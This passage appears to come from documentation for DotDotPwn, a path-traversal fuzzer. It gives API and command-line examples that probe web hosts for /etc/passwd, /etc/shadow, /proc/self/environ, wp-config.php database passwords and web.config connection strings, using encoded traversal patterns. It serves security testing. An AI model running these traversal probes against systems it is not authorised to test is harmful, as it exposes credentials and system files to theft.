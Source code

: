#### API Request
```bash
curl -X POST "http://localhost:8000/scans" \
  -H "Content-Type: application/json" \
  -d '{
    "module": "http",
    "target": {"host": "webapp.company.com", "port": 443},
    "config": {"file": "/etc/passwd", "pattern": "root:", "depth": 8},
    "options": {"ssl": true, "os_detection": true, "break_on_first": true},
    "auto_start": true
  }'
```

### E-commerce Platform Testing

**Scenario**: Testing an e-commerce platform with common vulnerabilities.

```bash
# Test for configuration files
python dotdotpwn.py --module http --host shop.example.com --file config.php --pattern "mysql_connect" --depth 10 --extra-files

# Test for database connection files
python dotdotpwn.py --module http --host shop.example.com --file wp-config.php --pattern "DB_PASSWORD" --depth 8

# Test Windows-based e-commerce
python dotdotpwn.py --module http --host winshop.example.com --os-type windows --file web.config --pattern "connectionString" --depth 6
```

### 🆕 Cross-Platform Testing Examples

**Scenario**: Comprehensive testing for both UNIX and Windows systems with absolute path detection.

#### UNIX System Testing
```bash
# NEW: Comprehensive UNIX testing with absolute paths
python dotdotpwn.py --module http --host linux.server.com --file /etc/passwd --absolute --depth 6
# Generates patterns like: /etc/passwd, %2fetc%2fpasswd, ../../../etc/passwd

# NEW: Test multiple critical UNIX files
python dotdotpwn.py --module http --host linux.server.com --file /etc/shadow --absolute --pattern "root:"
python dotdotpwn.py --module http --host linux.server.com --file /proc/self/environ --absolute --pattern "PATH"
python dotdotpwn.py --module http --host linux.server.com --file /var/log/auth.log --absolute --pattern "authentication"

# NEW: Generate UNIX patterns for offline analysis
python dotdotpwn.py generate --os-type unix --file /etc/passwd --depth 8 --absolute > unix_patterns.txt
```
